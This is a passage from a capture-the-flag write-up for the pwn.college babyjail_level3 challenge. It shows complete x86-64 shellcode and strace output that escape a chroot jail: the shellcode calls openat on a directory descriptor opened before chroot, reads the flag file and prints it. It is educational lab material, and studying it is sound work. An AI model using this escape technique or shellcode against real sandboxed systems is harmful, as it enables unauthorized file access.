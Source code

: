 ```

flag:
	.string "flag"
```
- Note that I specified `flag` and not `/flag` because that would reference the file inside `jail/`.
- The result of the open syscall is a file descriptor.
- We can check it's value in the practice mode using `strace` which traces every system call.
```
~$ sudo strace /challenge/babyjail_level3 / < /home/hacker/shellcode.bin

; -- snip --
openat(3, "flag", O_RDONLY)             = 4
read(4, "pwn.college{practice}\n", 1000) = 22
; -- snip --
```
- This result is stored in `$rax` as is the case with most syscall that return a value.
```
# Read syscall
mov rdi, rax
mov rsi, rsp
mov rdx, 1000
mov rax, 0x00
syscall
```
- We can pass this shellcode to the challenge.
```
~$ /challenge/babyjail_level3 / < /home/hacker/shellcode.bin
```
- Note that `/` is our `argv[1]`, which we are using as reference in `openat`.
- Since this directory is opened before `chroot()` is executed it won't be in the jail.
- Congratulations! We have escaped `chroot`.
```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x01
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

```